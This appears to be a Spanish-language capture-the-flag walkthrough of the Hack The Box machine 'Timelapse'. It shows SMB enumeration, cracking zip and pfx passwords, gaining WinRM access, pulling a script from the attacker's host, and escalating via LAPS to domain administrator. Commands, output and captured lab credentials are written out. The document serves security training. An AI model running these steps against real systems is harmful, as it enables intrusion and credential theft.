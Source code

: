 # 10.10.11.152 - Timelpase
![Timelapse](https://user-images.githubusercontent.com/96772264/205365063-9ef89d8b-1b63-4087-9ae1-bdd579322a6a.png)

------------------------
# Part 1: Enumeración

Puertos: 53(dns),88(kerberos),135(rpc),139(ldap),445(smb),464,593,636,3269,3268,5986(winrm),9389:  
- Nombre: timelapse.htb  

------------------------
# Part 2: Accediendo a smb

```console
└─$ smbmap -H 10.10.11.152 -u 'test'
	IPC$                                              	READ ONLY	Remote IPC
	Shares                                            	READ ONLY	
└─$ smbmap -H 10.10.11.152 -u 'test' -r "Shares"
	dr--r--r--                0 Mon Oct 25 21:40:06 2021	Dev
	dr--r--r--                0 Mon Oct 25 17:55:14 2021	HelpDesk
└─$ smbmap -H 10.10.11.152 -u 'test' -r "Shares/Dev"
	fr--r--r--             2611 Mon Oct 25 23:05:30 2021	winrm_backup.zip
└─$ smbmap -H 10.10.11.152 -u 'test' --download "Shares/Dev/winrm_backup.zip"

└─$ unzip 10.10.11.152-Shares_Dev_winrm_backup.zip
[10.10.11.152-Shares_Dev_winrm_backup.zip] legacyy_dev_auth.pfx password:
└─$ zip2john 10.10.11.152-Shares_Dev_winrm_backup.zip > hash
└─$ john hash -w=/usr/share/wordlists/rockyou.txt
supremelegacy    (10.10.11.152-Shares_Dev_winrm_backup.zip/legacyy_dev_auth.pfx)
└─$ unzip winrm_backup.zip
[10.10.11.152-Shares_Dev_winrm_backup.zip] legacyy_dev_auth.pfx password: supremelegacy
```

------------------------
# Part 3: Crackenado archivos

Los archivos pfx sirven para crear llaves con ellos.
```console
└─$ openssl pkcs12 -in ./legacyy_dev_auth.pfx -nocerts -out llave_legacy.key
Enter Import Password:
└─$ /usr/share/john/pfx2john.py ./legacyy_dev_auth.pfx > hash
└─$ john hash -w=/usr/share/wordlists/rockyou.txt
thuglegacy       (legacyy_dev_auth.pfx)
└─$ openssl pkcs12 -in ./legacyy_dev_auth.pfx -nocerts -out llave_legacy.key
# Tanto como password como PEM pass que nos piden ponemos "thuglegacy"
└─$ openssl pkcs12 -in ./legacyy_dev_auth.pfx -nokeys -out certificado.pem
```
```
└─$ evil-winrm -i 10.10.11.152 -k llave_legacy.key -c certificado.pem -S
*Evil-WinRM* PS C:\Users\legacyy\Documents>

*Evil-WinRM* PS C:\Users\legacyy\Documents> copy \\10.10.14.16\carpeta\enumeracion_windows.bat
```
- Vemos que en el historial de comandos en Powershell hay creds svc_deploy:E3R$Q62^12p7PLlC%KWaxuaV

------------------------
# Part 4: Escalando privilegios: LAPS_READERS

```console
└─$ evil-winrm -i 10.10.11.152 -u 'svc_deploy' -p 'E3R$Q62^12p7PLlC%KWaxuaV' -S
```
- Nuestro usuario está en LAPS_READERS
```console
*Evil-WinRM* PS C:\Users\svc_deploy\Documents> Get-ADComputer DC01 -property 'ms-mcs-admpwd'
ms-mcs-admpwd     : EB71J5m-1V-18@%z#w9&4L3x

└─$ evil-winrm -i 10.10.11.152 -u 'administrator' -p 'EB71J5m-1V-18@%z#w9&4L3x' -S
*Evil-WinRM* PS C:\Users\Administrator\Desktop> whoami
timelapse\administrator
```
